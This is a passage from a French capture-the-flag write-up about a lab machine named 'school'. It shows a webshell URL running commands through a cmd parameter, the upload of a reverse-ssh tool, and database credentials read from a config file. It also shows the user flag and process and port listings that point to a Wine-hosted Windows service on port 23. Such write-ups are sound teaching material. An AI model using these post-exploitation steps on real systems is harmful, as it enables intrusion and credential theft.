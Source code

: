 Dans tous les cas, après utilisation de l'exploit j'obtiens un webshell à cette adresse :

http://192.168.56.51/student_attendance/assets/uploads/1667940180_shell.php?cmd=id

Un upload de reverse-ssh plus tard et je suis mon parcours de santé tel que trouver les identifiants de la BDD :

```php
www-data@school:/var/www/html/student_attendance$ cat db_connect.php 
<?php 

$conn= new mysqli('localhost','fox','trallalleropititumpa','student_attendance_db')or die("Could not connect to mysql".mysqli_error($con));
```

Obtenir le premier flag :

```shellsession
www-data@school:/home/fox$ cat local.txt 
e4ed03b4852906b6cb716fc6ce0f9fd5
```

Découvrir la suite des opérations en regardant les processus :

```
root       349  0.0  0.0   2388   760 ?        S    20:29   0:00 /bin/sh /root/win
root       351  0.0  0.6 2632452 6672 ?        S    20:29   0:00 /opt/access/access.exe
root       387  0.0  0.5   8192  5280 ?        Ss   20:29   0:00 /usr/lib/wine/wineserver32 -p0
root       480  0.0  0.6 2633684 6160 ?        Ssl  20:29   0:00 C:\windows\system32\services.exe
root       504  0.0  0.6 2636308 6760 ?        Sl   20:29   0:00 C:\windows\system32\winedevice.exe
root       558  0.0  0.5 2632388 5572 ?        Sl   20:29   0:00 C:\windows\system32\plugplay.exe
root       586  0.3  1.3 2650608 13448 ?       Sl   20:29   0:07 C:\windows\system32\winedevice.exe
```

Au vue des ports ouverts et services qui tournent (80 pour Apache, 3306 pour MySQL, 631 pour CUPS, 22 pour SSH) on peut confirmer que c'est bien l'exécutable Windows lancé via Wine qui utilise le port 23.

```shellsession
www-data@school:/var/www/html$ ss -lntp
State                       Recv-Q                       Send-Q                                             Local Address:Port                                             Peer Address:Port                      
LISTEN                      0                            80                                                     127.0.0.1:3306                                                  0.0.0.0:*                         
LISTEN                      0                            128                                                      0.0.0.0:80                                                    0.0.0.0:*                         
LISTEN                      0                            128                                                      0.0.0.0:22                                                    0.0.0.0:*                         
LISTEN                      0                            5                                                      127.0.0.1:631                                                   0.0.0.0:*                         
LISTEN                      0                            128                                                      0.0.0.0:23                                                    0.0.0.0:*
```
